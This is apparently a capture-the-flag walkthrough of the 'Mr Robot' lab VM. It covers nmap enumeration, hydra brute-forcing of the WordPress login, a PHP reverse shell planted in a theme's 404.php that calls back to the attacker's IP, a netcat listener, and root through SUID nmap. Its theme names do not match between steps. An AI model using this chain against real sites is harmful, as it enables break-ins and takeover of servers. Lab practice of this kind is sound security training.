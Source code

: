 # Mr Robot


WORK IN PROGRESS


### Find Own Host

		inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Find machine

		nmap 192.168.30.0/24

>Nmap scan report for 192.168.30.130
Host is up (0.00050s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

### Adding to hosts for convenience

		echo 192.168.30.130 mrrobot >> /etc/hosts

### Enumerate website

		nmap -A --script=http-enum mrrobot

>PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
443/tcp open   ssl/ssl Apache httpd (SSL-only mode)
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
MAC Address: 00:0C:29:8B:05:80 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop


### Robots.txt

		curl mrrobot/robots.txt

>User-agent: *
fsocity.dic
key-1-of-3.txt

### Create desktop folder to store my shit, and download the first key and dic file

		cd ~/Desktop
		mkdir mrrobot
		wget mrrobot/fsocity.dic
		wget mrrobot/key-1-of-3.txt
		cat key-1-of-3.txt

>073403c8a58a1f80d943455fb30724b9

### The dictionary file

See how long the file is

		wc fsocity.dic
		
		or
		
		wc -l fsocity.dic

>858160 fsocity.dic

Holy shit. Remove uniques

		cat fsocity.dic | sort | uniq > filtered.txt
		wc -l filtered.txt

>11451 filtered.txt

Much better.

### WP Login

Browse to:

		mrrobot/wp-login.php

We have a form! Take note of the value naming. 'log' and 'pwd'

View source:

		<form name="loginform" id="loginform" action="http://mrrobot/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" class="input" value="" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://mrrobot/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>


Try logging in

		user: admin
		pass: admin

>ERROR: Invalid Username

What about mrrobot's show character(s)?(yeah this part is not fully useable irl but hey)

		user: elliot
		pass: elliot

>ERROR: The password you entered for the username elliot is incorrect.

So username is elliot. bruteforce the form with hydra



		hydra mrrobot http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Error" -l elliot -P filtered.txt

>[80][http-post-form] host: mrrobot   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found


### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS




### Set up a listener

		nc -lvp 7777

### Access the page to get reverse shell running

		
		curl mrrobot/wp-content/themes/twentyfourteen/404.php


Find SUID bits

		find / -perm -u=s -type f 2>/dev/null


there's nmap!

		nmap --interactive
		!bash -p
		whoami


